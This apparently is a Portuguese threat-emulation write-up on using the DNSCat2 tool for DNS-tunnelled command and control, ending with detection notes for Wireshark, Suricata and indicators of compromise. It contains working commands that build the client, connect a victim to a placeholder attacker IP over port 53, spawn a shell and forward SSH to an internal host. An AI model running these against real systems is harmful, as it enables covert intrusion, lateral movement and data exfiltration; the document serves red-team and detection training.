





<div style="display: flex; justify-content: center;">
  
</div>

# Commando and Control (C2) Usando DNSCat2

$\color{black}{\textsf{Pesquisador}}$ : $\color{purple}{\textsf{Bryenne Bonfim}}$

$\color{black}{\textsf{Tipo de Ameaça}}$ : $\color{orange}{\textsf{TTP}}$

$\color{black}{\textsf{TLP}}$ :  $\color{red}{\textsf{RED}}$

$\color{black}{\textsf{Nível de Impacto}}$ :  $\color{red}{\textsf{Alto}}$

$\color{black}{\textsf{Tipo de Impacto}}$ :  $\color{red}{\textsf{Comando e Controle}}$

--------------------------------------

## Introdução

Atualmente, a infraestrutura de TI e os dispositivos de segurança de rede estão cada vez mais robustos, tornando portas como a 53 (DNS) uma alternativa para estabelecer comunicação entre um cliente e um servidor C2. Mesmo em ambientes altamente restritos, o DNS continua resolvendo domínios. Por isso, durante testes de penetração, pode ser necessário usar uma ferramenta capaz de criar conexões reversas na porta 53 e realizar tunelamento DNS quando preciso. É nesse cenário que entra o dnscat2.

Esta pesquisa explora o uso do *DNSCat2*, uma ferramenta de tunelamento DNS, para estabelecer um canal de Comando e Controle (C2) utilizando o protocolo DNS. Este método pode ser usado para exfiltração de dados ou para manter comunicações entre um atacante e uma máquina comprometida, explorando a funcionalidade do DNS como uma alternativa para contornar restrições de rede.

<p align="center">
  
 <br>
  Figura 1: Exemplificção do Processo de C2.
</p>

## Protocolo DNS Está Funcionando?
O protocolo DNS funciona na porta TCP/UPD 53. É um protocolo sem estado, pois troca informações específicas. Ele permite que uma rede se conecte à internet e, sem ele, toda a navegação na internet seria impossível e absurda. Sua função é traduzir endereços IP para nomes de host (para a conveniência do usuário) e vice-versa. Daí a extrema importância do DNS em uma rede.

## DNSCat e suas funcionalidades

O DNScat é uma ferramenta muito valorizada por sua capacidade de criar um túnel de comando e controle utilizando o protocolo DNS, permitindo que um invasor opere de forma discreta. Com ele, é possível acessar dados, fazer upload e download de arquivos e até obter um shell. Para funcionar na porta 53, não é necessário ter controle autoritativo sobre o servidor DNS; basta estabelecer a conexão na porta 53, que será rápida e geralmente identificada como tráfego normal. No entanto, isso pode deixar rastros nos registros de pacotes.

A ferramenta é composta por dois componentes principais: o cliente e o servidor. Entender como ambos funcionam é essencial para compreender o DNScat.

Cliente: Deve ser executado na máquina-alvo. Escrito em C, ele requer poucos pré-requisitos. Quando o cliente é iniciado, ele se comunica regularmente com um domínio especificado. Os pacotes são enviados para o servidor DNS local, que redireciona o tráfego para o servidor DNS legítimo associado ao domínio (geralmente sob controle do invasor).

Servidor: Funciona como um servidor DNS definitivo e precisa ser executado em um ambiente controlado. Desenvolvido em Ruby, ele depende de algumas bibliotecas específicas. Quando configurado, o servidor escuta os domínios definidos na porta 53. Ao receber tráfego para esses domínios, ele tenta estabelecer uma conexão válida. Qualquer outro tráfego é ignorado ou, opcionalmente, encaminhado para o servidor DNS upstream.

Essa estrutura permite que o DNScat funcione de maneira eficaz para fins como testes de penetração ou outras situações específicas.

## Emulação de Ameaça - Estabelecer um canal de C2 através de DNS.

### Etapa I: Configuração do Servidor DNSCat2

Para iniciarmos nossa emulação da ameaça, devemos instalar o `DNSCat2` o framework para comunicação C2 através de DNS, vamos utilizar o comando abaixo, que irá clonar o repositório onde nossa ferramentas esta disponível:

```zsh
git clone https://github.com/iagox86/dnscat2.git
```

<p align="center">
  
 <br>
  Figura 2: Instalação da Ferramenta DNSCat2
</p>

Agora instale o `bundler`, pois ele é uma dependência importante do `dnscat2`. Para instalar o `bundler`, vá primeiramente para o diretório do servidor do `dnscat2` e digite o segundo comando:

```zsh
cd dnscat2
cd server
```
```zsh
gem install bundler
bundle install
```

<p align="center">
  
 <br>
  Figura 3: Instalação da Dependência do DNSCat2.
</p>

Uma vez que tudo esteja pronto, inicie o servidor DNSCat2 com o seguinte comando a seguir. O servidor irá escutar por conexões no protocolo DNS.:

```zsh
ruby dnscat2.rb
```

<p align="center">
  
 <br>
  Figura 4: Inciar o Servidor DNSCat2.
</p>

### Configuração do Client DNSCat2 na Vítima

Similarmente, baixe dnscat2 na máquina cliente também. E use o comando make para compilá-lo com o servidor, como mostrado na imagem abaixo:

```zsh
git clone https://github.com/iagox86/dnscat2.git 
cd dnscat2/ 
cd cliente/ 
make
```

<p align="center">
  
 <br>
  Figura 5: Baixando DNSCat2 na Vítima.
</p>

Para estabelecer uma conexão entre cliente e servidor, use o seguinte comando:

```zsh
./dnscat --dns=server=[IP-ATACANTE],port=53
```

<p align="center">
  
 <br>
  Figura 6: Conexão com o DNSCat2 da Vítima.
</p>

### Etapa II: Estabelecendo conexão C2 via DNS

Uma vez que a conexão é estabelecida, você pode ver no lado do servidor que você terá uma sessão como mostrado na imagem abaixo. Agora, aqui podemos explorar muitas opções, todas disponíveis na categoria `help`.

Podemos listar as sessões ativas no servidor DNSCat2 com o comando `sessions` para verificar se uma sessão foi criada. 

Agora, para interagir com a referida sessão digite o seguinte comando:

```zsh
session -i 1
```

<p align="center">
  
 <br>
  Figura 7: Sessão Criada com DNSCat2.
</p>

Podemos acessar a sessão agora e interagir com muitas das opções disponíveis. Vamos tentar interagir com o sistema usando o comando:

```zsh
shell
```

Com certeza, isso criará uma nova sessão 2 e, ao interagir com essa sessão, teremos um shell tradicional.

```zsh
session -i 2
uname -a
ifconfig
```

<p align="center">
  
 <br>
  Figura 8: Gerando o Segundo Shell.
</p>

## Tunelamento DNS

O importante a ser observado aqui é que o sistema cliente claramente tem duas placas NIC instaladas e os intervalos de IP são diferentes em ambos. Então, tradicionalmente, um sistema presente no primeiro intervalo de IP 192.168.0.0/24 não será capaz de se comunicar com um sistema presente no segundo intervalo de IP 192.168.140.0/24

Aqui, realizamos o reconhecimento e encontramos mais um sistema no intervalo 192.168.140.0/24 com endereço IP 192.168.140.3 e encaminhamos a porta 22 deste sistema para a porta 8888 do cliente para criar um túnel DNS entre os dois sistemas usando o shell de comando que obtivemos nas etapas anteriores.

```zsh
listen 127.0.0.1:8888 192.168.140.3:22
```

<p align="center">
  
 <br>
  Figura 9: Listening do Novo Sistema.
</p>

Agora, usando nosso servidor, tentamos logar no sistema com o endereço IP `192.168.140.3` . Aqui, sabemos as credenciais do sistema, então logamos indiretamente.

```zsh
ssh bya@127.0.0.1 -p 8888
```

E como podemos ver, conseguimos nos comunicar com o sistema confortavelmente.

<p align="center">
  
 <br>
  Figura 10: Login no Novo Sistema.
</p>

E no nosso server podemos validar a conexão realizada com sucesso:

<p align="center">
  
 <br>
  Figura 11: Tunelamento Feito com Sucesso.
</p>

## Detecção da Emulação: C2 usando DNSCat2

Podemos verificar a criação bem-sucedida da sessão no Wireshark também. Em cenários da vida real, a porta 53 desempenha um papel enorme em obter shell reverso porque a porta 53 raramente é bloqueada em dispositivos de segurança e, além disso, em cenários onde um sistema hospeda mais de uma placa NIC, o tráfego de ambas as placas viaja por um único DNS. 

Podemos observar muitas consultas DNS CNAME, TXT e MX e toda a sequência de consulta é codificada por hex-encode, solicitando várias requisições para o DNS. Veja abaixo:

<p align="center">
  
 <br>
  Figura 12: Log Gerado no WIRESHARK.
</p>

<p align="center">
  
 <br>
  Figura 13: Log Gerado no WIRESHARK dos Comandos.
</p>

Com o `Suricata`, foi identificado um possível uso de **DNS Tunneling**, na análise, observamos múltiplas requisições suspeitas para um mesmo servidor DNS, além de padrões característicos de um túnel DNS. Esse comportamento pode indicar que uma máquina na rede 192.168.140.140.0/24 está tentando se comunicar com um servidor externo de maneira oculta. Abaixo, temos a evidência extraída dos logs do Suricata, mostrando a atividade suspeita:

<p align="center">
  
 <br>
  Figura 13: Regra Gerado no Suricata.
</p>

## Engenharia de Detecção

Na seção a seguir, vamos sintetizar como caçar os indicadores de comprometimento produzidos pela comunicação C2 estabelecida pela ferramenta DNSCat2.

### Caçando Indicadores de Comprometimento 

O DNScat2 é uma ferramenta que utiliza o protocolo DNS para estabelecer um canal de comando e controle (C2), permitindo que invasores operem de forma discreta em redes alvo. Embora o tráfego DNS seja geralmente considerado legítimo e, portanto, menos monitorado, o uso do DNScat2 pode deixar indicadores de comprometimento (IoCs) que podem ser detectados por equipes de segurança.

**Tráfego DNS Anômalo:**
- **Consultas DNS Frequentes e Repetitivas**: O DNScat2 gera um volume elevado de consultas DNS, muitas vezes em intervalos regulares, o que não é típico do comportamento normal de aplicativos legítimos.
- **Consultas para Registros Incomuns**: Uso de registros DNS menos comuns, como TXT, CNAME e MX, para comunicação de dados, o que pode ser um sinal de tunelamento DNS.

**Padrões de Nomes de Domínio Suspeitos:**
- **Domínios com Subdomínios Longos ou Codificados**: As consultas podem conter subdomínios extensos ou aparentemente codificados, utilizados para encapsular dados na comunicação entre o cliente e o servidor C2.

**Atividade de Rede Incomum:**
- **Conexões DNS para Servidores Externos Não Comuns:** O cliente DNScat2 pode ser configurado para se comunicar com servidores DNS externos específicos que não são normalmente acessados pela rede interna.

**Presença de Processos ou Arquivos Relacionados ao DNScat2:**
- **Processos em Execução:** Verificação de processos desconhecidos ou suspeitos em execução nos sistemas, especialmente aqueles relacionados ao DNScat2.
- **Arquivos do DNScat2:** Presença de arquivos associados ao DNScat2 nos sistemas, como o binário do cliente ou scripts relacionados.

----------------

## Conclusão

Mesmo em ambientes altamente restritos, o tráfego DNS geralmente é permitido para comunicação tanto dentro quanto fora da rede. Esse tráfego pode ser explorado como um canal de comunicação entre um host alvo e o servidor de comando e controle (C2). Comandos e informações são inseridos nas consultas e respostas DNS, o que dificulta a detecção, já que esses dados acabam se misturando ao tráfego legítimo e passam despercebidos. É justamente essa característica que o DNSCat aproveita, tornando-o uma ferramenta eficaz para ataques.

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link]().
